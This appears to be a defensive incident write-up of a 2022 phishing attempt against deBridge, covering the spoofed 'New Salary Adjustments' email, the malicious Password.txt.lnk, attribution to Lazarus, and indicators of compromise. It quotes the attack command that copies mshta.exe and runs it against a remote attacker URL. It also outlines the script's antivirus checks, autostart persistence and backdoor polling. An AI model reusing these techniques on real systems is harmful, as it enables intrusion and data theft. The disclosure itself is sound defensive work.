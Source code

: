 # deBridge (Attempt)

Date:: August 5, 2022

Tags:: 🔑 - Google Docs Phishing


---


## Details

PSA for all teams in Web3, this campaign is likely widespread.
The attack vector was via email, with several of our team receiving a PDF file named “New Salary Adjustments” from an email address spoofing mine.
We have strict internal security policies and continuously work on improving them as well as educating the team about possible attack vectors. 
Most of the team members immediately reported the suspicious email, but one colleague downloaded and opened the file
This made us investigate the attack vector to understand how exactly it was supposed to work and what the consequences would be.
Attack won’t infect macOS users: opening this link on a Mac leads to zip archive with the normal PDF file Adjustments.pdf (md5: 15a4…39c2)
…while opening this link on Windows systems leads to an archive with password-protected pdf with the same name (md5: 0038…8bc4), and an additional file named Password.txt.lnk (md5: 2eaa…6a30)
The attack vector is as follows: user opens link from email -> downloads & opens archive -> tries to open PDF, but PDF asks for a password -> user opens password.txt.lnk and infects the whole system.
We’ve inspected password.txt.lnk and here's a brief description of its contents/actions.
LnkParse shows us that clicking the lnk file will execute a cmd.exe command.
Long story short, this command performs the following actions:
Copy C:\Windows\System32\mshta.exe -> %public%/mshta.exe
mshta.exe “https://www[.]googlesheet[.]info/NZrTnPVmtfjcSMz8n1hZZzvHQvUUEfFnIMAYliQuR+A=”
Opening the link in the browser won’t give any content, so we tried to simulate mshta.exe headers with cUrl and it worked!

### Moving deeper into the rabbit hole reveals what this script does:
    - 1. Show notepad.exe with “pdf password”: Salary2022
    - 2. Check if Antivirus processes are active (ekrn - Eset, qqpcrtp - Tencent, bdagent - BitDefender)
    - 3. If no AV processes are found: save the generated malicious file named Box.lnk into autostart folder
    - 4. Decode Base64-encoded backdoor from var lp, save it into a file with a random name

### Here is how it looks:
    - This simple script sends repetitive requests to the attacker command center (CnC) in order to receive instructions. 
    - Replacing eval with logging/echo in the code allowed us to receive malicious instructions from the CnC and analyze them without execution.
    - After a series of empty responses we were finally able to receive the next part. 
    - Fast analysis showed that received code collects A LOT of information about the PC and exports it to CnC: username, OS info, CPU info, network adapters, and running processes.
    - System is considered compromised at the moment because any code from CnC can be performed on the infected machine.
    - It’s interesting that only a few anti-virus solutions mark these files as malicious.
    - According to the Twitter thread https://mobile.twitter.com/cyberoverdrive/status/1550175620927299584 files with the same names (but different hashes) were noticed and attributed to Lazarus Group (North-Korean hackers).

### DangerousPassword / CryptoCore / CryptoMimic / APT
    - b52e3aaf1bd6e45d695db573abc886dc
    - Password.txt.lnk
    - www[.]googlesheet[.]info - overlapping infrastructure with @h2jazi's tweet as well as earlier campaigns.
    - d73e832c84c45c3faa9495b39833adb2
    - New Salary Adjustments.pdf 💸💸💸 twitter.com/h2jazi/status/…
    - More related files can be found with #DangerousPassword hashtag, old research is available here: https://threatbook.cn/ppt/The%20Nightmare%20of%20Global%20Cryptocurrency%20Companies%20-%20Demystifying%20the%20%E2%80%9CDangerousPassword%E2%80%9D%20of%20the%20APT%20Organization.pdf
    - Indicators of Compromise: CnC: www[.]googlesheet[.]info
    - New Salary Adjustments.pdf (clean): 15a42f76f41c8f4bab828160e4fd39c2
    - New Salary Adjustments.pdf (with password): 00380fcbb2af75ec177301d44d658bc4
    - password.txt.lnk: 2eaa53ccb43cd38a1f0a28abcd7f6a30

TL;DR: Never open email attachments without verifying the sender’s full email address, and have an internal protocol for how your team shares attachments!


## URLs

- https://twitter.com/AlexSmirnov__/status/1555586334378676225
- https://bleepingcomputer.com/news/security/north-korean-hackers-target-crypto-experts-with-fake-coinbase-job-offers/
- https://bleepingcomputer.com/news/security/debridge-finance-crypto-platform-targeted-by-lazarus-hackers/
